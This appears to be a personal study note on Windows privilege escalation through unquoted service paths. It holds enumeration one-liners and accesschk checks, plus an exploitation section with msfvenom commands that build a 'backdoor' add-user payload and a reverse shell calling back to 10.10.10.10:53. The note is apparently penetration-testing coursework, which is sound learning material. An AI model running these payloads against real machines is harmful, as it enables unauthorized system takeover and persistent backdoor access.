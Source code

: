 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview 

```markdown
```
## Enumeration 

### Automated

```markdown
```

### Manual
```
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths
CMD> .\accesschk64.exe /accepteula -uwcqv studentuser ***

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary

```

![[Pasted image 20240330234504.png]]
## Exploitation 

```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
- Restart Machine

## Resources

```markdown
```

#### Notes | Bonus
- Create Links to this Page! 
